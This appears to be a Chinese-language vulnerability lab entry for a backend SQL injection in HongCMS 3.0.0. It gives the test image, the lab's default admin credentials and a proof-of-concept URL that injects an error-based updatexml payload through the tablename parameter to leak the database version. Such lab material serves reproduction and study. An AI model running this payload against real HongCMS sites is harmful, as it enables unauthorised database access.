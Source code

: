 ## 环境说明

* 镜像src/hongcms/3.0.0

  * 后台地址

    http://127.0.0.1/admin

  * 账号/密码：admin/admin


## Hongcms 3.0.0后台SQL注入漏洞

测试镜像

- src/hongcms/3.0.0

影响版本

- HongCMS <= 3.0.0

参考链接

- [Hongcms 3.0.0后台SQL注入漏洞分析](http://www.freebuf.com/vuls/178316.html)

Poc

使用管理员账号admin/admin登录后台，访问url

```
http://172.17.0.2/admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc`+where+vvcid%3d1+or+updatexml(2,concat(0x7e,(version())),0)+or+`
```
